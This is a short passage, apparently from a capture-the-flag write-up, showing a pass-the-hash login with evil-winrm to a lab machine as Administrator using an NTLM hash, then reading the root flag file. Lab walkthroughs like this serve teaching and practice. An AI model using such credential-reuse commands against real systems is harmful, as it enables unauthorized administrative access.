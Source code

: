 ```shell
evil-winrm -i 10.129.191.43 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```
## Root Flag
```shell
type C:\Users\Administrator\Desktop\root.txt
```